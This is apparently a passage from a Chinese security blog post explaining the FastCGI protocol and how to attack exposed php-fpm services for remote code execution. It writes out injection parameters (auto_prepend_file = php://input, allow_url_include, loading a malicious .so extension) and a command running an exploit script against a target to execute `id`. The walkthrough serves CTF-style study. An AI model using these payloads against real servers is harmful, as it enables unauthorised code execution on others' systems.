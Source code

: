 
先从heder中拿到body体大小（最大2^16=65535字节），再从tcp流里读取大小等于contentLenth的body，之后还有一部分额外的padding

header中的type起到指定record的作用，因为FastCGI的单个record大小有限作用单一，所以我们需要一个TCP流中传输多个record，通过type来标识每个record的作用是什么，requestId做到区分每一次的请求

![image-20211112110643128](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112110643128.png)

当type=4时，表明消息中包含的数据为某个name-value对，比如

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

其中`SCRIPT_FILENAME`就是php-fpm会去执行的文件，由于5.3.9版本引入了`security.limit_extensions`的选项，默认对后缀名限制在了php家族，所以我们可以考虑找到已存在php文件（安装时附带的php文件 可以通过`find / -name "*.php"`来搜索一下默认环境 比如/usr/local/lib/php/PEAR.php），向其中注入恶意代码；而fpm支持通过设置`FASTCGI_PARAMS`来动态修改php的设置，可以利用这两项

```
'PHP_VALUE': 'auto_prepend_file = php://input',
'PHP_ADMIN_VALUE': 'allow_url_include = On'
```

来做到执行某php文件时自动包含POST内容，执行恶意代码（disable_function在php加载时就确定好了，无法重写）

## 攻击思路&&例题

伪造一个可以正常通信的FastCGI客户端，将传输的内容修改为我们的恶意payload，再发出去

### 远程攻击php-fpm

这里是[p牛的脚本](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)，兼容py2&3，默认-p 9000，-c `<?php phpinfo();?>`

```bash
python fpm.py target_ip /var/www/html/index.php -c '<?php echo `id`;exit;?>'
```

我们需要改动的只有params部分的`PHP_ADMIN_VALUE`

```
'PHP_ADMIN_VALUE': 'allow_url_include = On\nextension = /home/amelia/TEMP/fpm/wuhu.so',
```
